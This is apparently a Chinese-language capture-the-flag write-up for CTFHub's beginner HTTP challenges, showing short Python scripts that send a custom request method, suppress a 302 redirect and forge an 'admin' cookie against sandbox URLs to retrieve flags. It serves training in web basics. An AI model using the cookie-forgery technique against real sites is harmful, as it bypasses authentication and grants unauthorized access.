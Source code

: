 # ctf入门-http基础


CTFHUB技能树的题目<br>
web-web前置技能-http协议
<!--more-->

---------

# 请求方式

## 题目

HTTP 请求方法, HTTP/1.1协议中共定义了八种方法（也叫动作）来以不同方式操作指定的资源。<br>还给了一个url

## 解题过程

打开url后，显示如下：

> HTTP Method is GET Use CTF**B Method, I will give you flag.<br>
> Hint: If you got 「HTTP Method Not Allowed」 Error, you should request index.php.

发现是要用`CTFHUB`这个方法请求这个url

用py写如下代码：

```python
from urllib import request

req = request.Request(method='CTFHUB', url='http://challenge-7c8a21f5ac0bee47.sandbox.ctfhub.com:10080/index.php')
res = request.urlopen(req)
print(res.read())
```

返回了html文档，其中便有flag

# 302跳转

## 题目

HTTP临时重定向<br>依旧给了个url

## 解题过程

访问url，显示：

```html
<body>
		<center>
			<h1>No Flag here!</h1>
            <a href="index.php">Give me Flag</a>
		</center>
</body>
```

chrome抓包发现对index.php的请求302到了index.html~

利用python访问url并禁止跳转

```python
import requests

url = "http://challenge-2d971fb5ad995d8f.sandbox.ctfhub.com:10800/index.php"
req = requests.get(url=url, allow_redirects=False)
print(req.text)
```

# Cookie

## 题目

Cookie欺骗、认证、伪造<br>以及url

## 解题过程

访问url，提示：

> hello guest. only admin can get flag.

查看请求头，发现`Cookie: admin:0`,故而应该是请求时传入cookies

```python
import requests

url = "http://challenge-1ff467c75ff8e3e2.sandbox.ctfhub.com:10800"
req = requests.get(url=url, cookies={'admin':'1'})
print(req.text)
```

即可获得flag

